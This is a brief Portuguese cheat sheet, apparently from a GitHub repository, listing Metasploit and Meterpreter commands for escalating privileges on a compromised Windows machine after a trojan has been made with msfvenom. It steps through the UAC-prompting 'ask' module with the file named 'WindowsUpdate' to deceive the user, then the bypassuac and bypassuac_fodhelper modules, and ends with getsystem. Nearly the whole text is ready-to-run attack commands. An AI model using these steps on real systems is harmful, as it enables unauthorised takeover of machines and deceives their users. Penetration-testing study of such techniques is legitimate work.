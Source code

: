 ### Escalação de privilégio ***com interação do usuário***
~~~~
getuid
getprivs
getsystem -h
~~~~
Depois de criar o cavalo de troia através do MSFVENOM faça:
~~~~
metasploit
meterpreter> background
exploit (multi/handler)> search uac
use exploit/windows/local/ask

exploit (windows/local/ask) > set FILE_NAME WindowsUpdate
exploit (windows/local/ask)> session 1
exploit (windows/local/ask)> technique PSH
exploit (windows/local/ask)> run
exploit (windows/local/ask)> sessions -i 2
~~~~

### Escalação de privilégio ***sem interação do usuário***

1ª tentativa
~~~~
use exploit/windows/local/bypassuac
set session 1 
run
~~~~
2ª tentativa
~~~~
use exploit/windows/local/bypassuac_fodhelper
exploit (windows/local/bypassuac_fodhelper)> set session 1 
exploit(windows/local/bypassuac_fodhelper)> run
meterpreter> getsystem
~~~~

